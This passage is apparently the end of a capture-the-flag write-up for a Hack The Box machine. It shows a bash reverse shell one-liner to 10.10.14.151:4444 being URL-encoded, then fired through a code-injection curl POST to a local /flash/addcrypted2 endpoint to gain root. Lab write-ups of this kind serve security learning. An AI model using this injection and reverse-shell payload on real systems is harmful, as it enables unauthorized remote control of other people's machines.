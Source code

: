 Lets exploit this site with that payload script →

![Untitled](/Vulnhub-Files/img/PC/Untitled%2011.png)

Finally lets run reverse shell to get to root , and for that I need to url encode the script then use it like this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/PC]
└─$ urlencode "bash -c 'bash -i >& /dev/tcp/10.10.14.151/4444 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.151%2F4444%200%3E%261%27
```
{: .nolineno}

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.151%2F4444%200%3E%261%27\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/PC/Untitled%2012.png)
